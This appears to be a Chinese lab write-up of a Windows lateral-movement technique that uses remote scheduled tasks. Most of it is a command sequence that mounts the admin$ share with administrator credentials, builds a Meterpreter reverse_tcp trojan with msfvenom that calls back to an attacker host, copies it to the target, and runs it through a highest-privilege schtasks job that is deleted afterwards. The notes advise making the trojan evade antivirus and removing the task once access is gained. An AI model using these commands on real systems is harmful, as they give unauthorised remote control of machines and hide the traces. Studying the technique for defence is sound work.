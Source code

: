 ```yaml
---
title: 横向移动：schtasks远程计划任务
categories:
- windows
tags:
- windows
- lateral-movement
---
```


## 视频教程：
[横向移动手法介绍](https://www.bilibili.com/video/BV1Hz4y1Z7pJ)
## 拓扑图

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-04-06/10.png)

## 执行的命令

```
net user administrator 123456
net user administrator qwe123!
net use \\192.168.123.67\admin$ /user:"administrator" 123456

win10提示:服务器没有配置远程管理的功能
win2008 命令成功完成
net use \\192.168.123.24\admin$ /user:"administrator" qwe123!
net time \\192.168.123.24 提示服务尚未启动
at \\192.168.123.24

生成木马
handler -H 192.168.123.138 -P 4444 -p windows/meterpreter/reverse_tcp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.123.138 LPORT=4444 -f exe -o payload.exe

上传木马
xcopy C:\Users\whale\Desktop\p\0404.exe \\192.168.123.24\admin$\temp\

调整字符集
chcp 437

创建计划任务
schtasks /create /s 192.168.123.24 /u "administrator" /p "qwe123!" /RL HIGHEST /F /tn "todayfive" /tr "C:/Windows/temp/0404.exe" /sc once /st 17:03:00

设置无论用户是否登陆，都执行计划任务

run whether user is logged on or not 

schtasks /create /s 192.168.123.24 /u "administrator" /p "qwe123!" /RL HIGHEST /F /tn "todayfive" /tr "C:/Windows/temp/0404.exe" /sc once /st 17:03:00 /NP


查看帮助
schtasks /create /?

执行计划任务
schtasks /run /tn todayfive /s 192.168.123.24 /U "administrator" /P "qwe123!"

查看运行状态
schtasks /query /s 192.168.123.24 /U "administrator" /P "qwe123!" | findstr "todayfive"

删除
schtasks /delete /F /tn todayfive /s 192.168.123.24 /U " administrator" /P "qwe123!"
```

在远程的目标机器上创建计划任务
1. 被动密码搜集的方式
2. 指定计划任务执行的时间
3. exe免杀木马

注意：
- win7以后使用schtasks命令，之前使用at命令
- 应用场景：快速横向移动拿权限用的。
- 非稳定控制的方式。需要自行免杀绕过av。
- 拿到权限就删掉计划任务
- 中文系统要调整字符集
